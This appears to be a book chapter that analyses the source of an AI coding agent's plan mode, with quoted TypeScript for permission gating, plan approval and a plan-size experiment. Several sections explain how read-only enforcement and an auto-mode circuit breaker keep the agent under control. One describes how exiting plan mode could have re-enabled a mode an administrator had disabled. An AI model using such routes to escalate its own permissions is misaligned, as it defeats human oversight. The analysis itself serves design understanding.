Chapter 45 covers Plan Mode V2 and its five-phase model -- the phases, parallel agent counts by subscription tier, read-only enforcement, and plan storage. Plan mode is cc's implementation of HER's Pattern 6 (Explore-Plan-Act Loop): it separates the exploration phase (where the agent gathers information without making changes) from the execution phase (where the agent acts on its plan). This separation is critical for trust: it allows the user to review and approve the plan before any changes are made.

Chapter 46 examines worktrees -- creation, slug validation, symlinked node_modules, worktree hooks, and the enter and exit tools. Worktrees are cc's mechanism for isolated parallel development: they create separate git worktrees with their own working directories, allowing multiple agents to work on different tasks simultaneously without interfering with each other. They implement HER's Pattern 8 (Fork-Join Parallelism) at the filesystem level.

Chapter 47 covers cron, scheduling, the loop mechanism, and wakeup -- scheduled tasks (maximum 50 per project), storage, the dynamic loop sentinel, and the monitor tool. Cron tasks allow cc to execute recurring work on a schedule: running tests every hour, checking build status every morning, or monitoring a deployment pipeline. The dynamic loop sentinel enables agents to pace themselves, waking up at appropriate intervals rather than polling continuously.

Chapter 48 explores remote agents and CCR integration -- RemoteTriggerTool, remote session manager, websocket sessions, and how CCR binds to the local parent. Remote agents extend cc's execution capabilities to the cloud: they allow sub-agents to run on remote machines with different resources, capabilities, and network access. This is the cloud-tier of cc's three-tier multi-agent architecture, and it is essential for workflows that require more compute or different environments than the local machine provides.

Chapter 49 examines the experimental layers -- the KAIROS proactive assistant mode, the Buddy Tamagotchi easter egg, feature-gated experiments, and why they matter for UX warmth and observability. While these features may seem frivolous, they serve important functions: KAIROS explores how an agent can proactively offer assistance rather than waiting for explicit instructions, and Buddy demonstrates how personality features can increase user engagement and trust. Both are feature-gated experiments that inform cc's future direction.

By the end of this Part, you should understand how cc handles work that cannot be completed in a single query iteration: how plan mode structures exploration before action, how worktrees isolate parallel branches, how cron and scheduling enable time-based automation, how remote agents extend execution to the cloud, and how experimental features probe future directions. This understanding is essential for Part IX (which covers the observability of long-running work) and Part X (which evaluates cc's long-running architecture against HER's reference model).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Plan Mode V2: The Five-Phase Model

## Overview

Plan mode is cc's implementation of the Explore-Plan-Act loop pattern identified in HER Section 5 (Pattern 6). When a user faces a non-trivial implementation task, the agent can voluntarily enter a read-only planning phase, explore the codebase, draft a plan, and present it for human approval before making any file modifications. This chapter traces the full lifecycle of plan mode V2, from `EnterPlanModeTool` through the five exploration phases to `ExitPlanModeV2Tool`, and examines how subscription tiers govern the number of parallel exploration subagents.

The plan mode system embodies the HER thesis that long-running agents must separate exploration from execution. Without a planning gate, an agent given a vague task like "add caching to the API" could blaze through dozens of files making irreversible changes before the user realizes the approach is wrong. Plan mode forces a checkpoint: the agent must show its reasoning and get explicit human consent before it can write. This aligns with the HER Session Protocol (Section 10.3), which prescribes an ORIENT-SETUP-VERIFY-SELECT-IMPLEMENT-TEST-UPDATE-EXIT workflow. Plan mode effectively splits SELECT (choose an approach) from IMPLEMENT (write code), inserting a mandatory human-approval step between them.

The two tools that bracket plan mode -- `EnterPlanModeTool` and `ExitPlanModeV2Tool` -- are deliberately designed as a matched pair. Entering plan mode transitions the permission context to read-only; exiting it restores the previous permissions. The tools are gated together: when channels mode (Telegram/Discord) is active, both are disabled, because the plan-approval dialog requires the terminal UI. This pairing prevents the model from entering a mode it cannot leave.

## Data structures and contracts

### EnterPlanModeTool input and output schemas

The `EnterPlanModeTool` takes no parameters -- it is a simple transition signal. The tool's only purpose is to flip the permission context from its current mode to `'plan'`:

```typescript
// src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L21-L34
const inputSchema = lazySchema(() =>
  z.strictObject({
    // No parameters needed
  }),
)
type InputSchema = ReturnType<typeof inputSchema>

const outputSchema = lazySchema(() =>
  z.object({
    message: z.string().describe('Confirmation that plan mode was entered'),
  }),
)
type OutputSchema = ReturnType<typeof outputSchema>
```

The tool is marked `isReadOnly: true` at `src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L72` and `shouldDefer: true` at `src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L55`. The `shouldDefer` flag means the model cannot call it during concurrent tool execution, and the `isReadOnly` classification ensures the tool itself does not count as a write operation. This is important because the tool's side effect -- changing the permission mode -- is a state mutation, but it is a metadata mutation, not a filesystem mutation. The `isReadOnly` flag also means the tool can be called during plan mode itself -- a model that is already in plan mode can call `EnterPlanModeTool` again without violating the read-only constraint, though the permission system will reject the redundant call since the mode is already `'plan'`.

### ExitPlanModeV2Tool input and output schemas

`ExitPlanModeV2Tool` is the escape hatch. Its input allows the model to request prompt-based permissions for the implementation phase:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L77-L89
const inputSchema = lazySchema(() =>
  z
    .strictObject({
      // Prompt-based permissions requested by the plan
      allowedPrompts: z
        .array(allowedPromptSchema())
        .optional()
        .describe(
          'Prompt-based permissions needed to implement the plan. These describe categories of actions rather than specific commands.',
        ),
    })
    .passthrough(),
)
```

The `allowedPrompts` field lets the model request semantic permission descriptions (e.g., "run tests", "install dependencies") that carry into the implementation phase. Each prompt entry is a `{ tool: 'Bash', prompt: string }` pair, where the prompt is a natural-language description of the category of commands the plan needs. The `.passthrough()` on the schema allows fields injected by `normalizeToolInput` (specifically `plan` and `planFilePath`) to pass through without validation errors.

The output schema captures the full result of exiting plan mode:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L110-L142
export const outputSchema = lazySchema(() =>
  z.object({
    plan: z
      .string()
      .nullable()
      .describe('The plan that was presented to the user'),
    isAgent: z.boolean(),
    filePath: z
      .string()
      .optional()
      .describe('The file path where the plan was saved'),
    hasTaskTool: z
      .boolean()
      .optional()
      .describe('Whether the Agent tool is available in the current context'),
    planWasEdited: z
      .boolean()
      .optional()
      .describe(
        'True when the user edited the plan (CCR web UI or Ctrl+G); determines whether the plan is echoed back in tool_result',
      ),
    awaitingLeaderApproval: z
      .boolean()
      .optional()
      .describe(
        'When true, the teammate has sent a plan approval request to the team leader',
      ),
    requestId: z
      .string()
      .optional()
      .describe('Unique identifier for the plan approval request'),
  }),
)
```

The `awaitingLeaderApproval` and `requestId` fields are used by teammate subagents that require team-lead sign-off before exiting plan mode -- a distributed approval protocol that routes through the mailbox system described in Chapter 23.

### Plan mode agent count configuration

The number of parallel exploration agents is governed by subscription tier, not by user choice. The configuration lives in `planModeV2.ts`:

```typescript
// src/utils/planModeV2.ts:L5-L29
export function getPlanModeV2AgentCount(): number {
  // Environment variable override takes precedence
  if (process.env.CLAUDE_CODE_PLAN_V2_AGENT_COUNT) {
    const count = parseInt(process.env.CLAUDE_CODE_PLAN_V2_AGENT_COUNT, 10)
    if (!isNaN(count) && count > 0 && count <= 10) {
      return count
    }
  }

  const subscriptionType = getSubscriptionType()
  const rateLimitTier = getRateLimitTier()

  if (
    subscriptionType === 'max' &&
    rateLimitTier === 'default_claude_max_20x'
  ) {
    return 3
  }

  if (subscriptionType === 'enterprise' || subscriptionType === 'team') {
    return 3
  }

  return 1
}
```

The explore-agent count defaults to 3 regardless of tier (via `getPlanModeV2ExploreAgentCount()` at `src/utils/planModeV2.ts:L31-L43`), but the number of plan-phase agents that run in parallel is 1 for free-tier users and 3 for enterprise/team/max subscribers. This creates a material difference in planning throughput: a Pro user exploring a large codebase gets one sequential agent, while an Enterprise user gets three parallel streams. The environment variable `CLAUDE_CODE_PLAN_V2_AGENT_COUNT` provides a developer override (capped at 10) for testing.

The explore-agent count is controlled by a separate function with its own environment variable override (`CLAUDE_CODE_PLAN_V2_EXPLORE_AGENT_COUNT`), also capped at 10. The two-count design separates the exploration phase (always 3 agents for parallel search) from the planning phase (subscription-tiered). This means even free-tier users benefit from parallel exploration, but only subscribers get parallel planning -- a deliberate product decision that gives free users a taste of the capability while reserving the full benefit for paying customers.

### The PewterLedgerVariant experiment

The `PewterLedgerVariant` type controls an A/B experiment on plan file size:

```typescript
// src/utils/planModeV2.ts:L64-L95
export type PewterLedgerVariant = 'trim' | 'cut' | 'cap' | null

/**
 * tengu_pewter_ledger — plan file structure prompt experiment.
 *
 * Controls the Phase 4 "Final Plan" bullets in the 5-phase plan mode
 * workflow (messages.ts getPlanPhase4Section). 5-phase is 99% of plan
 * traffic; interview-phase (ants) is untouched as a reference population.
 *
 * Arms: null (control), 'trim', 'cut', 'cap' — progressively stricter
 * guidance on plan file size.
 *
 * Baseline (control, 14d ending 2026-03-02, N=26.3M):
 *   p50 4,906 chars | p90 11,617 | mean 6,207 | 82% Opus 4.6
 *   Reject rate monotonic with size: 20% at <2K → 50% at 20K+
 *
 * Primary: session-level Avg Cost (fact__201omjcij85f) — Opus output is
 *   5× input price so cost is an output-weighted proxy. planLengthChars
 *   on tengu_plan_exit is the mechanism but NOT the goal — the cap arm
 *   could shrink the plan file while increasing total output via
 *   write→count→edit cycles.
 * Guardrail: feedback-bad rate, requests/session (too-thin plans →
 *   more implementation iterations), tool error rate
 */
export function getPewterLedgerVariant(): PewterLedgerVariant {
  const raw = getFeatureValue_CACHED_MAY_BE_STALE<string | null>(
    'tengu_pewter_ledger',
    null,
  )
  if (raw === 'trim' || raw === 'cut' || raw === 'cap') return raw
  return null
}
```

The experiment varies the Phase 4 "Final Plan" bullets in the 5-phase plan mode workflow. Baseline data (14 days, 26.3M sessions) shows that plan reject rate is monotonically increasing with plan size: 20% at under 2K characters, rising to 50% at over 20K. The `trim` arm gently reduces verbosity, `cut` removes low-value sections, and `cap` enforces a hard character limit. The primary metric is session-level average cost (a proxy for output tokens, since Opus output is 5x input price), not plan length itself.

## Control flow

### Entering plan mode

When the model calls `EnterPlanModeTool`, the `call()` method performs three critical mutations:

```typescript
// src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L77-L95
  async call(_input, context) {
    if (context.agentId) {
      throw new Error('EnterPlanMode tool cannot be used in agent contexts')
    }

    const appState = context.getAppState()
    handlePlanModeTransition(appState.toolPermissionContext.mode, 'plan')

    // Update the permission mode to 'plan'. prepareContextForPlanMode runs
    // the classifier activation side effects when the user's defaultMode is
    // 'auto' — see permissionSetup.ts for the full lifecycle.
    context.setAppState(prev => ({
      ...prev,
      toolPermissionContext: applyPermissionUpdate(
        prepareContextForPlanMode(prev.toolPermissionContext),
        { type: 'setMode', mode: 'plan', destination: 'session' },
      ),
    }))
```

First, it rejects agent contexts -- subagents cannot independently enter plan mode. This guard prevents a subagent from spontaneously entering a read-only phase while its parent expects it to be making edits. Second, it calls `handlePlanModeTransition()` (from `src/bootstrap/state.ts`) to record the transition for analytics and state tracking, setting `hasExitedPlanMode` and `needsPlanModeExitAttachment` flags. Third, it sets the permission mode to `'plan'` via `prepareContextForPlanMode()`, which runs classifier activation side effects when the user's default mode is `'auto'` (see Chapter 33 for the classifier lifecycle).

The permission transition is the security core of plan mode. Setting the mode to `'plan'` enforces read-only tool access: the agent can run `Glob`, `Grep`, `Read`, and `AskUserQuestion`, but `Write`, `Edit`, and `Bash` (for write commands) are blocked. This is not a soft suggestion enforced only by the prompt -- the `useCanUseTool` hook (Chapter 35) enforces it at the dispatch level, making it impossible for the model to bypass the restriction. The dual enforcement (prompt + permission) is deliberate: the prompt tells the model what it should do, and the permission system catches it if it does not comply. This defense-in-depth approach is necessary because large language models can fail to follow instructions under adversarial prompting or context compaction.

The `prepareContextForPlanMode()` function at `src/bootstrap/state.ts` also runs classifier activation side effects when the user's default mode is `'auto'`. When a user in auto mode enters plan mode, the system must record that auto mode was active before the transition, so that `ExitPlanModeV2Tool` can decide whether to restore it. The `prePlanMode` field in the permission context stores this value, and the auto-mode state module tracks whether auto mode was used during plan mode (which affects whether the exit notification mentions auto mode).

### The five phases

Once inside plan mode, the agent follows a five-phase workflow:

1. **Explore** -- The agent reads files, searches for patterns, and builds a mental model of the relevant subsystems. Up to three parallel exploration subagents may be dispatched for large codebases (subscription-dependent, governed by `getPlanModeV2ExploreAgentCount()` at `src/utils/planModeV2.ts:L31`).

2. **Plan** -- The agent writes a concrete implementation plan to the plan file (stored at a path communicated via the system prompt, managed by `src/utils/plans.ts`). The plan includes file paths, function names, and code-level details. The plan file is the single artifact that survives between the planning and implementation phases.

3. **Interview** (conditional) -- When `isPlanModeInterviewPhaseEnabled()` returns true (controlled by the `tengu_plan_mode_interview_phase` GrowthBook gate or the `USER_TYPE=ant` environment variable), the agent enters a structured interview where it asks clarifying questions before finalizing the plan. The interview phase is active by default for internal users (`USER_TYPE === 'ant'` at `src/utils/planModeV2.ts:L52`).

4. **Approval** -- The agent calls `ExitPlanModeV2Tool`, which presents the plan to the user (or the team lead, for teammates). The user can approve, edit, or reject. When the interview phase is enabled, detailed workflow instructions arrive via the `plan_mode` attachment in `messages.ts`, rather than being embedded in the tool result.

5. **Implement** -- Upon approval, the permission mode is restored to its pre-plan value (typically `'default'` or `'auto'`), and the agent begins coding. The plan file remains accessible for reference during implementation.

```mermaid
stateDiagram-v2
    [*] --> Explore: EnterPlanMode called
    Explore --> Plan: Codebase understood
    Plan --> Interview: Interview phase enabled
    Plan --> Approval: Interview phase disabled
    Interview --> Approval: Questions resolved
    Approval --> Implement: User approves
    Approval --> Plan: User requests changes
    Implement --> [*]: Pre-plan mode restored
```

### Parallel exploration agent dispatch

The Explore phase can dispatch multiple subagents in parallel, each assigned a different region of the codebase. The dispatch mechanism works through the `AgentTool` (Chapter 18) with a constrained prompt that limits each exploration agent to read-only operations. When `getPlanModeV2ExploreAgentCount()` returns 3, the parent agent partitions the search space -- for example, assigning one agent to explore the data layer, another to the API routes, and a third to the UI components. Each exploration agent runs in its own context window, preventing cross-contamination between search domains.

The merge flow collects results from all exploration agents before the Plan phase begins. Each agent's findings are written back as tool results to the parent's conversation context. The parent agent then synthesizes the parallel findings into a coherent mental model before drafting the implementation plan. This fork-join pattern (HER Pattern 8) ensures that the planning phase has complete coverage of the codebase without any single agent needing to traverse the entire directory tree.

```mermaid
sequenceDiagram
    participant Parent as Parent Agent
    participant E1 as Explore Agent 1
    participant E2 as Explore Agent 2
    participant E3 as Explore Agent 3
    participant User as User

    Parent->>Parent: EnterPlanMode called
    Parent->>E1: Dispatch (data layer)
    Parent->>E2: Dispatch (API routes)
    Parent->>E3: Dispatch (UI components)
    E1->>Parent: Findings (data models, migrations)
    E2->>Parent: Findings (endpoints, handlers)
    E3->>Parent: Findings (components, hooks)
    Parent->>Parent: Synthesize findings
    Parent->>Parent: Draft implementation plan
    Parent->>User: ExitPlanMode (present plan)
    User->>Parent: Approve / Edit / Reject
    Parent->>Parent: Begin implementation
```

The number of agents does not affect the merge semantics -- whether there is 1 or 3, the parent collects all results before proceeding. The concurrency benefit is purely in wall-clock time: three agents searching in parallel complete their exploration in roughly one-third the time of a single sequential agent, assuming the codebase partitions cleanly. When the search space does not partition well (e.g., a small project where all files are interdependent), the parallel agents may duplicate work, but the deduplication cost is small compared to the latency savings on large codebases.

### The EnterPlanMode prompt strategy

The `EnterPlanModeTool` prompt differs between internal users (`USER_TYPE=ant`) and external users. For external users, the prompt encourages liberal use of plan mode -- "Prefer using EnterPlanMode for implementation tasks unless they're simple." For internal users, it is more restrained -- "Plan mode is valuable when the implementation approach is genuinely unclear." The external prompt at `src/tools/EnterPlanModeTool/prompt.ts:L16-L98` includes seven categories of tasks that warrant plan mode (new features, multiple approaches, code modifications, architectural decisions, multi-file changes, unclear requirements, user preferences matter) and three categories that do not (single-line fixes, clear requirements, pure research).

This prompt split reflects an important product decision: external users prefer being consulted before changes, while internal users prefer the agent to get started and ask specific questions. The `ASK_USER_QUESTION_TOOL_NAME` is positioned as the lightweight alternative to plan mode for internal users -- a targeted question rather than a full planning phase.

### Exiting plan mode

The `ExitPlanModeV2Tool.call()` method handles both local users and teammate subagents. For a local user, it restores the pre-plan permission mode with a circuit-breaker defense:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L357-L403
    context.setAppState(prev => {
      if (prev.toolPermissionContext.mode !== 'plan') return prev
      setHasExitedPlanMode(true)
      setNeedsPlanModeExitAttachment(true)
      let restoreMode = prev.toolPermissionContext.prePlanMode ?? 'default'
      if (feature('TRANSCRIPT_CLASSIFIER')) {
        if (
          restoreMode === 'auto' &&
          !(permissionSetupModule?.isAutoModeGateEnabled() ?? false)
        ) {
          restoreMode = 'default'
        }
        const finalRestoringAuto = restoreMode === 'auto'
        // Capture pre-restore state — isAutoModeActive() is the authoritative
        // signal (prePlanMode/strippedDangerousRules are stale after
        // transitionPlanAutoMode deactivates mid-plan).
        const autoWasUsedDuringPlan =
          autoModeStateModule?.isAutoModeActive() ?? false
        autoModeStateModule?.setAutoModeActive(finalRestoringAuto)
        if (autoWasUsedDuringPlan && !finalRestoringAuto) {
          setNeedsAutoModeExitAttachment(true)
        }
      }
      // If restoring to a non-auto mode and permissions were stripped (either
      // from entering plan from auto, or from shouldPlanUseAutoMode),
      // restore them. If restoring to auto, keep them stripped.
      const restoringToAuto = restoreMode === 'auto'
      let baseContext = prev.toolPermissionContext
      if (restoringToAuto) {
        baseContext =
          permissionSetupModule?.stripDangerousPermissionsForAutoMode(
            baseContext,
          ) ?? baseContext
      } else if (prev.toolPermissionContext.strippedDangerousRules) {
        baseContext =
          permissionSetupModule?.restoreDangerousPermissions(baseContext) ??
          baseContext
      }
      return {
        ...prev,
        toolPermissionContext: {
          ...baseContext,
          mode: restoreMode,
          prePlanMode: undefined,
        },
      }
    })
```

This restoration logic includes a critical circuit-breaker defense: if the pre-plan mode was `'auto'` but the auto-mode gate has been disabled since the agent entered plan mode (e.g., by an admin flipping a kill switch), the tool falls back to `'default'` rather than re-enabling auto mode. Without this guard, `ExitPlanMode` would become a privilege-escalation vector -- an agent could enter plan mode, wait for the admin to disable auto mode, then exit plan mode and have auto mode restored from the `prePlanMode` field.

The `setHasExitedPlanMode(true)` call at `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L359` is a session-level flag that persists across compaction boundaries. It prevents the model from re-entering plan mode for the same task after exiting, which would create a loop where the agent keeps planning and re-planning without implementing. The `hasExitedPlanModeInSession()` function at `src/bootstrap/state.ts` reads this flag, and the `validateInput` handler on `ExitPlanModeV2Tool` uses it to distinguish between "never entered plan mode" and "already exited plan mode earlier this session" when logging the `tengu_exit_plan_mode_called_outside_plan` telemetry event.

The tool also handles the `strippedDangerousRules` flag. When entering plan mode from auto, the permission system strips dangerous rules (see Chapter 32). On exit, if the restored mode is not auto, those rules are restored. If the restored mode is auto, they stay stripped. This ensures that permission stripping is consistent with the restored mode, not with the pre-plan mode.

### Teammate plan approval

For teammate subagents operating under `isPlanModeRequired()`, exiting plan mode does not show a local dialog. Instead, the teammate sends a plan-approval request to the team leader's mailbox:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L264-L313
    // Check if this is a teammate that requires leader approval
    if (isTeammate() && isPlanModeRequired()) {
      // Plan is required for plan_mode_required teammates
      if (!plan) {
        throw new Error(
          `No plan file found at ${filePath}. Please write your plan to this file before calling ExitPlanMode.`,
        )
      }
      const agentName = getAgentName() || 'unknown'
      const teamName = getTeamName()
      const requestId = generateRequestId(
        'plan_approval',
        formatAgentId(agentName, teamName || 'default'),
      )

      const approvalRequest = {
        type: 'plan_approval_request',
        from: agentName,
        timestamp: new Date().toISOString(),
        planFilePath: filePath,
        planContent: plan,
        requestId,
      }

      await writeToMailbox(
        'team-lead',
        {
          from: agentName,
          text: jsonStringify(approvalRequest),
          timestamp: new Date().toISOString(),
        },
        teamName,
      )

      // Update task state to show awaiting approval (for in-process teammates)
      const appState = context.getAppState()
      const agentTaskId = findInProcessTeammateTaskId(agentName, appState)
      if (agentTaskId) {
        setAwaitingPlanApproval(agentTaskId, context.setAppState, true)
      }
```

This is a distributed approval protocol: the teammate cannot proceed until the team lead sends a response through the mailbox system. The `awaitingLeaderApproval: true` flag in the output tells the model to wait rather than begin implementation. The `requestId` field provides a correlation key that the team lead can use when sending the approval or rejection response.

The `findInProcessTeammateTaskId()` function at `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L299-L301` locates the teammate's task ID in the AppState and sets `awaitingPlanApproval: true`, which surfaces in the task list UI to show that the teammate is blocked on approval.

### Tool gating in plan mode

Plan mode enforces strict tool gating at two levels: prompt-level and permission-level. The prompt level tells the model what it should and should not do; the permission level enforces it regardless of model compliance.

```mermaid
flowchart TD
    A[Model requests tool] --> B{useCanUseTool hook}
    B --> C{mode == plan?}
    C -->|No| D[Normal permission flow]
    C -->|Yes| E{tool.isReadOnly?}
    E -->|Yes| F[Allow without user prompt]
    E -->|No| G[Block: plan mode is read-only]
    G --> H[Return denial to model]
    D --> I{Permission rules check}
    I --> J[Allow or ask]
```

The `EnterPlanModeTool` prompt reinforces this at the prompt level: "DO NOT write or edit any files yet. This is a read-only exploration and planning phase." When the interview phase is enabled, the instruction is even more restrictive: "DO NOT write or edit any files except the plan file."

### Plan file persistence and CCR editing

When `ExitPlanModeV2Tool` is called, the plan is read from disk via `getPlan()`. If the CCR web UI sent an edited plan via `permissionResult.updatedInput`, the tool writes the edit back to the plan file before presenting it:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L251-L261
    // CCR web UI may send an edited plan via permissionResult.updatedInput.
    // queryHelpers.ts full-replaces finalInput, so when CCR sends {} (no edit)
    // input.plan is undefined -> disk fallback. The internal inputSchema omits
    // `plan` (normally injected by normalizeToolInput), hence the narrowing.
    const inputPlan =
      'plan' in input && typeof input.plan === 'string' ? input.plan : undefined
    const plan = inputPlan ?? getPlan(context.agentId)

    // Sync disk so VerifyPlanExecution / Read see the edit. Re-snapshot
    // after: the only other persistFileSnapshotIfRemote call (api.ts) runs
    // in normalizeToolInput, pre-permission — it captured the old plan.
    if (inputPlan !== undefined && filePath) {
      await writeFile(filePath, inputPlan, 'utf-8').catch(e => logError(e))
      void persistFileSnapshotIfRemote()
    }
```

This ensures that `VerifyPlanExecution` and `Read` see the edited version, not the original. The `persistFileSnapshotIfRemote()` call re-snapshots the file state for remote sessions, where the permission approval happens through a web UI rather than the terminal.

## Edge cases and failure modes

### Channels mode disables plan mode entirely

Both `EnterPlanModeTool` and `ExitPlanModeV2Tool` check for active channels (Telegram/Discord) and disable themselves when channels are present:

```typescript
// src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L57-L67
  isEnabled() {
    // When --channels is active, ExitPlanMode is disabled (its approval
    // dialog needs the terminal). Disable entry too so plan mode isn't a
    // trap the model can enter but never leave.
    if (
      (feature('KAIROS') || feature('KAIROS_CHANNELS')) &&
      getAllowedChannels().length > 0
    ) {
      return false
    }
    return true
  },
```

The rationale is that channel users are not watching the terminal, so the plan-approval dialog would hang indefinitely. Without this guard, a channel user could enter plan mode and never be able to exit -- a "mode trap" where the model transitions into a state that requires terminal interaction but the user is on a different channel.

### ExitPlanMode called outside plan mode

The `validateInput` method guards against the model calling `ExitPlanModeV2Tool` when it is not in plan mode -- a scenario that can happen after compaction clears the context and the model loses track of its current mode:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L195-L219
  async validateInput(_input, { getAppState, options }) {
    // Teammate AppState may show leader's mode (runAgent.ts skips override in
    // acceptEdits/bypassPermissions/auto); isPlanModeRequired() is the real source
    if (isTeammate()) {
      return { result: true }
    }
    // The deferred-tool list announces this tool regardless of mode, so the
    // model can call it after plan approval (fresh delta on compact/clear).
    // Reject before checkPermissions to avoid showing the approval dialog.
    const mode = getAppState().toolPermissionContext.mode
    if (mode !== 'plan') {
      logEvent('tengu_exit_plan_mode_called_outside_plan', {
        model:
          options.mainLoopModel as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS,
        mode: mode as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS,
        hasExitedPlanModeInSession: hasExitedPlanModeInSession(),
      })
      return {
        result: false,
        message:
          'You are not in plan mode. This tool is only for exiting plan mode after writing a plan. If your plan was already approved, continue with implementation.',
        errorCode: 1,
      }
    }
    return { result: true }
  },
```

The event logging here (`tengu_exit_plan_mode_called_outside_plan`) is deliberate -- it catches a model hallucination pattern where the model believes it is in plan mode but is not. The `hasExitedPlanModeInSession` field in the event payload helps distinguish between "never entered plan mode" and "already exited plan mode earlier this session."

### Auto-mode circuit breaker on plan exit

When a user entered plan mode from auto mode and the auto-mode gate is later disabled (e.g., an admin activates a circuit breaker), `ExitPlanModeV2Tool` must not restore auto mode. The tool detects this and falls back to `'default'`, with a notification to the user:

```typescript
// src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L329-L355
    if (feature('TRANSCRIPT_CLASSIFIER')) {
      const prePlanRaw = appState.toolPermissionContext.prePlanMode ?? 'default'
      if (
        prePlanRaw === 'auto' &&
        !(permissionSetupModule?.isAutoModeGateEnabled() ?? false)
      ) {
        const reason =
          permissionSetupModule?.getAutoModeUnavailableReason() ??
          'circuit-breaker'
        gateFallbackNotification =
          permissionSetupModule?.getAutoModeUnavailableNotification(reason) ??
          'auto mode unavailable'
        logForDebugging(
          `[auto-mode gate @ ExitPlanModeV2Tool] prePlanMode=${prePlanRaw} ` +
            `but gate is off (reason=${reason}) — falling back to default on plan exit`,
          { level: 'warn' },
        )
      }
    }
    if (gateFallbackNotification) {
      context.addNotification?.({
        key: 'auto-mode-gate-plan-exit-fallback',
        text: `plan exit → default · ${gateFallbackNotification}`,
        priority: 'immediate',
        color: 'warning',
        timeoutMs: 10000,
      })
    }
```

Without this defense, exiting plan mode would silently re-enable auto mode, bypassing the circuit breaker that an administrator had explicitly activated. The notification uses `priority: 'immediate'` and `color: 'warning'` to ensure the user sees the fallback, with a 10-second auto-dismiss timeout.

### Teammate durable cron restriction

Teammates cannot create durable cron jobs. The `CronCreateTool` validates this at `src/tools/ScheduleCronTool/CronCreateTool.ts:L107-L114`, rejecting the request if `input.durable && getTeammateContext()`. This prevents orphaned cron tasks that would fire after the teammate's session has ended, with the `agentId` pointing to a nonexistent agent.

### Plan mode re-entry after context compaction

Context compaction (Chapter 18) presents a particular hazard for plan mode: when the conversation context is compressed, the model may lose awareness that it is in plan mode and attempt to call write tools. The `validateInput` guard on `ExitPlanModeV2Tool` at `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L195-L219` handles one direction (calling Exit when not in plan mode), but the more dangerous direction is the model forgetting it is in plan mode and attempting writes.

The permission-level enforcement via `useCanUseTool` (Chapter 35) serves as the hard backstop. Even if the model's context is completely compacted and it believes it is in default mode, the permission context remains `'plan'` in the AppState, and any attempt to call `Write`, `Edit`, or write-mode `Bash` will be rejected by the permission hook. This is why plan mode's security guarantee depends on the permission system, not on the prompt -- prompt instructions are lost during compaction, but the AppState mutation persists.

The `hasExitedPlanModeInSession()` flag tracked in `src/bootstrap/state.ts` provides a second layer of defense. When the model calls `ExitPlanModeV2Tool` after compaction has erased its awareness of having already exited, the validation handler can detect the redundant call and log it as a model-hallucination event (`tengu_exit_plan_mode_called_outside_plan`). This telemetry helps the team identify compaction-related confusion patterns and improve the compaction prompt strategy.

### The plan file contract

The plan file is the single artifact that bridges the planning and implementation phases. It is stored at a path communicated via the system prompt and managed by `src/utils/plans.ts`. The plan file serves several purposes beyond human review:

1. **Context preservation across compaction.** When the conversation context is compacted during the implementation phase, the model can re-read the plan file to recover its implementation strategy. Without the plan file, a compacted model would need to re-explore the codebase, wasting time and potentially diverging from the approved approach.

2. **Audit trail.** The plan file persists on disk after the session ends, providing a record of what the agent intended to do and what the user approved. This is valuable for post-hoc debugging when an approved plan produces unexpected results.

3. **Distributed coordination.** For teammate subagents, the plan file is the vehicle for leader approval. The `planContent` field in the approval request at `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L264-L313` contains the plan text, and the `planFilePath` field tells the leader where to find the file for detailed review.

The PewterLedger experiment varies how the plan file is written. The `trim` variant applies soft truncation to verbose sections, `cut` removes sections flagged as low-value by the experiment heuristics, and `cap` enforces a hard character limit. All three variants write to the same plan file path; the variation is in the content, not the storage mechanism. The experiment's primary metric (session-level average cost) captures the downstream effect: shorter plans lead to shorter implementation phases (fewer output tokens), which may or may not produce equivalent results.

### The interview phase in depth

The interview phase is the most nuanced of the five phases because it introduces a bidirectional dialog between the agent and the user within the planning context. When `isPlanModeInterviewPhaseEnabled()` returns true, the agent is instructed to use `AskUserQuestion` (Chapter 24) to clarify ambiguous requirements before finalizing the plan.

The interview phase is gated by the `tengu_plan_mode_interview_phase` GrowthBook feature flag or the `USER_TYPE=ant` environment variable at `src/utils/planModeV2.ts:L52`. The internal-user default reflects a product insight: internal users (Anthropic employees) are more likely to be working on complex, underspecified tasks where clarifying questions are valuable. External users, who may be using cc for well-defined tasks, are less likely to benefit from the overhead of an interview phase.

When the interview phase is active, the exit-plan-mode workflow is significantly different. Instead of embedding the approval instructions in the tool result, detailed workflow instructions arrive via the `plan_mode` attachment in `messages.ts`. This attachment is a richer prompt that guides the model through the interview-and-approval workflow, including the structure of clarifying questions and the flow from interview to plan finalization to user approval.

The interview phase also changes the model's instructions about the plan file. Without the interview phase, the model is told to write the plan and then call ExitPlanMode. With the interview phase, the model is instructed to "DO NOT write or edit any files except the plan file," giving it explicit permission to update the plan file as the interview reveals new information, while still preventing it from making code changes.

## Where cc diverges from the published pattern

HER Pattern 6 (Explore-Plan-Act Loop) describes a three-phase model with escalating permissions: read-only, discussion, full access. cc implements a five-phase model that splits "explore" into parallel subagents with subscription-tiered concurrency, adds an optional interview phase, and routes teammate plan approvals through a mailbox-based distributed protocol. The HER pattern assumes a single agent; cc's implementation must handle multi-agent teams where a teammate's plan requires leader sign-off.

